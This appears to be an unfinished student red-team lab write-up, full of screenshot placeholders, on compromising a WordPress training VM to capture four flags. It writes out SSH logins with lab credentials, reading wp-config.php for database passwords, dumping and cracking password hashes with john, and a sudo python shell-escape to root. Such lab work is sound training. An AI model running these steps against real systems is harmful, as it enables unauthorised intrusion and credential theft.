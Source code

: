 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
# Insert nmap Screenshot
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache https 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


_TODO: ADD Screenshot nmap -sV 


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` hash value_
    - **Exploit Used**
      - ssh into Michael's account and look through files in /var/www
      - Command: ssh michael@192.168.1.110
      - The username and password for Michael's account is identical: michael
      - Command: cd /var/www
      - Command: ls 
      - Command: grep -RE flag html
      ### ADD Screenshot of Flag 1

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Command: ssh michael@192.168.1.110 
      - The username and password for Michael's account is identical: michael
      - Command: locate *flag*
      - Command: cat /var/www/flag2.txt
       ### ADD Screenshot of locate *flag* and flag2.txt.png

  - `flag3.txt`: 
    - **Exploit Used**
      - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
      - Command: ls /var/www/html/wordpress/
	### Add ls wordpress/Screenshot
      - Command: cat /var/www/html/wordpress/wp-config.php
	### ADD DB Username & Password Screenshot

    - Used the credentials to log into MySQL and dump WordPress user password hashes.
      - DB_NAME: wordpress
      - DB_USER: root
      - DB_PASSWORD: R@v3nSecurity
      - Command: mysql -u root -p
       ## ADD mysql screenshot 

    - Search MySQL database for Flag 3 and Wordpress user password hashes:
      - Flag 3 found in wp_posts.
      - Password hashes found in wp_users.
      - Command: show databases;
      ### ADD show database Screenshot
      - Command: use wordpress;
      ### ADD use wordpress Screenshot
      - Command: show tables;
       ### ADD show tables Screenshot
      - Command: SELECT * FROM wp_posts;	
      ### SCREENSHOT  SELECT * FROM wp_posts;

    - Screenshot of Wordpress user password hashes:
      - Command: select * from wp_users;
    ### ADD Steven hashed password Screenshot

   - Screenshot of Flag 3
     - Command: select * from wp_posts;
   #### ADD Screenshot of select * from wp_posts;


  - `flag4.txt`:
    - **Exploit Used**
      - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
      - Cracking the hashed password using john.
      - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
      - Command: john wp_hashes.txt
	### ADD Screenshot Steven's Password Cracked hashed

    - Secure a user shell as the user whose password you cracked.
      - Command: ssh steven@192.168.1.110
      - Password: pink84
    - Escalating to root:
      - Command: sudo -l  
    ### ADD SCREENSHOT sudo -l
      - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
     ### ADD Screenshot for python command

    - Search for the root directory for Flag 4.
      - Command: cd /root/
      - Command: ls
      - Command: cat flag4.txt
    ### ADD SCREENSHOT cd root, ls, cat flag4.txt
